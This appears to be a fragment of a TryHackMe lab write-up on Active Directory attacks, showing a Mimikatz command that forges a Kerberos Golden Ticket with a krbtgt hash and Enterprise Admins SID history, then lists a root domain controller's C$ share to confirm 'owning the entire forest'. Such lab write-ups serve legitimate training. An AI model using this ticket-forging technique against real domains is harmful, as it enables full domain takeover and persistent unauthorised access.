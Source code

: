 - Creating Golden Tickets
```bash
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```

- Now we can verify that it works using
```bash
dir \\thmrootdc.tryhackme.loc\c$\
```

- And we now own the entire forest